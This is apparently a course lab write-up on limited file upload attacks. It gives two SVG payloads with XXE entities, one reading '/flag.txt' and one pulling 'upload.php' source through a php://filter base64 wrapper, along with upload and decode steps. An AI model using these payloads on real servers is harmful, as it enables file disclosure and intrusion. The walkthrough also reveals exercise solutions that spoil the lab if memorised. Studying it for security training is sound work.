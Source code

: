 # Limited File Uploads

#### The above exercise contains an upload functionality that should be secure against arbitrary file uploads. Try to exploit it using one of the attacks shown in this section to read "/flag.txt"

The application in this section allows to upload a file, and the goal of this exercise is to try to exploit any file upload vulnerability.

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

To look for the flag we must adapt the script provided along the section:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]>
<svg>&xxe;</svg>
```

Just create a file (`nano xxe.svg`), copy and paste the code above and then hit the **Upload** button.

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

After the image got successfully uploaded, look for the svg file with the **inpect element** too&#x6C;**.**

And the flag should be easily visible!

#### Try to read the source code of 'upload.php' to identify the uploads directory, and use its name as the answer. (write it exactly as found in the source, without quotes)

For the second part, in the same application we have another task. This time we have to read the source code of 'upload.php' and identify the uploads directory.

This time we'll the following script:

{% code overflow="wrap" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
<svg>&xxe;</svg>
```
{% endcode %}

Like the last time, upload the file and look for the .svg file.

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

You should see a base64 string within. Copy it and use in the command bellow do decode it:

```bash
echo "base64_string" | base64 --decode
```

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And there it is! We manage to decode it and get the uploads directory!
